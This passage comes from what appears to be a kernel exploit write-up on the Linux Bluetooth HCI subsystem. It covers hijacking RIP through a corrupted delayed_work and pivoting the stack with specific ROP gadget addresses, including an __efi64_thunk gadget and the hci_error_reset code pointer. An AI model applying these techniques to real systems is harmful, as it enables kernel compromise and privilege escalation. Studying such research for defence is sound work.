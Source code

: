 That is to say, we can wait for a predicatable delay and then start the overwriting to compromise the `work_struct` in the `delayed_work`. This steady time window can boost the success rate of our attack and finally we have our primitive to achieve RIP hijacking.

#### ROP

The ROP story is simpler compared with the above one, but also very interesting. The most interesting part is about the stack pivoting. 

```cpp
/* HCI command timer function */
static void hci_cmd_timeout(struct work_struct *work)
{
	struct hci_dev *hdev = container_of(work, struct hci_dev,
					    cmd_timer.work);
...
	if (hdev->cmd_timeout)
		hdev->cmd_timeout(hdev);
```

In the very first attempt, I stick into the original delay target function `hci_cmd_timeout` and take `hdev->cmd_timeout` as the target code pointer and try to find proper gadgets to pivot the stack to some place I can control. However, almost all pivoting gadgets count on the register rax.

For example, the popular one
```
0xffffffff81e0103f: mov rsp, rax; push r12; ret;
```

But the sad thing is the register rax is not controllable in `hci_cmd_timeout` function. (In fact, the indirect call is achieved by `__x86_indirect_thunk_rax` hence the rax is stored the gadget address).

This problem also makes me suffer for hours. Thanks to my friend @Nop, we finally find one very great pivoting solution.

```
   0xffffffff81060a41 <__efi64_thunk+81>:	mov    rsp,QWORD PTR [rsp+0x18]
   0xffffffff81060a46 <__efi64_thunk+86>:	pop    rbx
   0xffffffff81060a47 <__efi64_thunk+87>:	pop    rbp
   0xffffffff81060a48 <__efi64_thunk+88>:	ret
```

This part of code will update the rsp to the value stored in rsp+0x18. By corrupt the `delay_struct` to function `hci_error_reset` and take the `hdev->hw_error` as the critical code pointer, the `[rsp+0x18]` falls within the `hdev` object I expected.

```cpp
static void hci_error_reset(struct work_struct *work)
{
	struct hci_dev *hdev = container_of(work, struct hci_dev, error_reset);

	BT_DBG("%s", hdev->name);

	if (hdev->hw_error)
		hdev->hw_error(hdev, hdev->hw_error_code);
	else
		bt_dev_err(hdev, "hardware error 0x%2.2x", hdev->hw_error_code);
...
}
```
